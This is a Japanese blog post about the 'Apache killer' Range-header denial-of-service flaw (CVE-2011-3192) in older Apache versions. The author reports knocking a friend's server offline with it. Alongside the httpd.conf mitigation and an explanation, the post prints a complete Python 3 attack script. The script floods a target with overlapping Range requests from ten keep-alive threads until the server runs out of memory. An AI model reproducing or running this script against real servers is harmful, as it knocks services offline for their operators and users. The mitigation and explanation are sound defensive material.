 ```yaml
---
title: pythonでapache killerを書いてみる
pubtime: 2015-07-01T15:25:00+09:00
amp: hybrid
tags: [Apache, apache_killer, 脆弱性, CVE-2011-3192, Range]
description: 友人のサーバの脆弱性を調べていたらapacheのバージョンが古かったので、試しにapache killerと言われる攻撃手法を試してみました。
---
```


友人の自宅サーバの脆弱性検査をしていたら、apacheのバージョンが随分と古かったのでapache killer(CVE-2011-3192)をさくっと叩いてみました。
ツール起動して十数秒でダウンするという恐ろしさ。

この脆弱性を持っているのはApache 2.2.19以前と、2.0.64以前らしいです。

**httpd.conf**に以下のような設定を付け足すと大丈夫になるようです。
``` apache
# Drop the Range header when more than 5 ranges.
# CVE-2011-3192
SetEnvIf Range (?:,.*?){5,5} bad-range=1
RequestHeader unset Range env=bad-range

# We always drop Request-Range; as this is a legacy
# dating back to MSIE3 and Netscape 2 and 3.
RequestHeader unset Request-Range
```
[参考サイト](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)に載っていたのそのままなのでコメント入ってますけど、結局のところ三行。シンプルだね。

さて、本題。
攻撃用に書いたコードがこんな感じです。python3。
``` python
import socket
import threading


target = ''  # target host name. eg. 'example.com'


dat = '''HEAD / HTTP/1.1
Host: {}
Range: bytes=0-1,1-2,2-3,3-4,4-5,5-6,6-7,7-8,8-9,9-10,10-11,11-12,12-13,13-14,0-1
Accept-Encoding: gzip
Connection: keep-alive


'''.format(target).encode('ascii')


def attack():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, 80))

        while True:
            sock.send(dat)
            if sock.recv(1024) == b'':
                break


if __name__ == '__main__':
    for i in range(10):
        t = threading.Thread(target=attack).run()
```
ご覧いただくとお分かり頂けるように、Rangeヘッダになんか凄い値が入っています。
0バイト目から1バイト目、1バイト目から2バイト目、2バイト目から・・・みたいな指定の仕方。
こういった感じでRangeヘッダで分割しまくると、メモリを物凄く食ってしまうそうです。

このコードではkeep-aliveを指定したコネクションを張るスレッドを10個立てて、件のリクエストを送り続けます。
アクセスログ見てるとかなり面白い。

そんなわけで。もう一度対策の設定を見てみる。
``` apache
SetEnvIf Range (?:,.*?){5,5} bad-range=1  # Rangeヘッダに,がいっぱいある場合はbad-rangeに1を設定
RequestHeader unset Range env=bad-range  # bad-rangeが設定されているなら、Rangeヘッダを削除。
```
こんな感じか。なるほど。

``` apache
RequestHeader unset Request-Range
```
こっちの意味はよく分からんのですが、コメントを見る限りでは古いブラウザの一部がこのヘッダを指定してくる、ということなのかな？

余談ですが、サーバのバージョンは必ず隠そうね。どういう脆弱性があるかを推察されてしまう。

---

参考：
- [Apache killerは危険&#65374;Apache killerを評価する上での注意&#65374; | 徳丸浩の日記](http://blog.tokumaru.org/2011/08/apache-killerapache-killer.html)
- [Here's a Preliminary "Apache Killer" Test Script - Blogging Techstacks](http://blog.techstacks.com/2011/08/heres-a-preliminary-apache-killer-test-script.html)
